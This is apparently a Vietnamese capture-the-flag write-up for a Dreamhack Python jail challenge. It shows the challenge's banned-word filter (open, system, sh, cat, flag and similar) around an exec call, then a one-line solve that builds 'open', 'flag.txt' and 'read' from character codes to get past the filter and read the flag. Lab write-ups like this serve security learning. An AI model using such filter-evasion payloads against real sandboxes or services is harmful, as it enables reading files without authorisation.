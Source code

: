 # Decription

[![](images/2025-07-30_01-30.png)](https://dreamhack.io/wargame/challenges/2068)

# Source
```c
import sys # What's wrong with you, Rootsquare?

def filter_code(user_input): # You cannot use those words.
    banned_word=['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', 'sh', 'break', 'mro', 'cat', 'flag']
    for i in range(0,len(banned_word),1):
        x=banned_word[i]
        if x in user_input:
            return False
    return True

print("Welcome to Python Challenge! Input your code and capture the flag!")
code=input('Input code > ') # Please input your code.
result=filter_code(code) # Check if you used banned word.

if result==True: # If you follow my rule, then I execute your code.
    try:
        exec(code) # (*) Search what does 'exec' means!
    except:
        pass
else:
    print('Your input is blocked.')
```

# Problem

```c
Ta thấy rằng mục đích của chương trình này là chặn các đoạn code nhạy cảm trong banned_word.

open/read/write/system/flag đều bị chặn. Ta không thể trực tiếp gọi các hàm đó để đọc flag được.

Nhưng để ý rằng hàm filter_code chỉ check những từ trong banned_word. Ta có thể nhập theo kiểu ascii/oct/hex để thực hiện yêu cầu mở flag và in ra ngoài.
```
# Solve
    
SỬ dụng python để tiến hành thwucj thi open, read, write flag

```c
print(getattr(getattr(__builtins__, ''.join(map(chr,[111,112,101,110])))(''.join(map(chr,[102,108,97,103,46,116,120,116]))), ''.join(map(chr,[114,101,97,100])))())
```
![](images/flag.png)
